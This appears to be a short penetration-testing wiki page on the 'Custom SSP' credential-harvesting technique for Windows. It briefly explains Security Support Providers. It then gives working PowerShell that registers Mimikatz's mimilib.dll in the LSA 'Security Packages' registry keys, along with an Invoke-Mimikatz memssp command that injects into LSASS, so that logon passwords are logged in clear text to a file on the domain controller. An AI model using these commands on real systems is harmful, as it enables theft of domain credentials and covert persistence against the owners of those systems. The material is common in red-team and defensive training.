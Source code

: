 # Custom SSP

A Security Support Provider (SSP) is a DLL which provides for an application an authenticated connection. \
\
Microsoft SSPs:&#x20;

* NTLM
* Kerberos
* Wdigest
* CredSSP

## Exploitation&#x20;

Mimikatz can provide a custom SSP (mimilib.dll) which logs local logons, service account, and machine account passwords in clear text on the target server.

Drop the mimilib.dll to system32 and add mimilib to Security Packages:&#x20;

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

Using mimikatz, inject into LSASS (not stable but usable)

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

{% hint style="info" %}
All local logons on the DC are logged to C:\Windows\system32\mimilsa.log
{% endhint %}

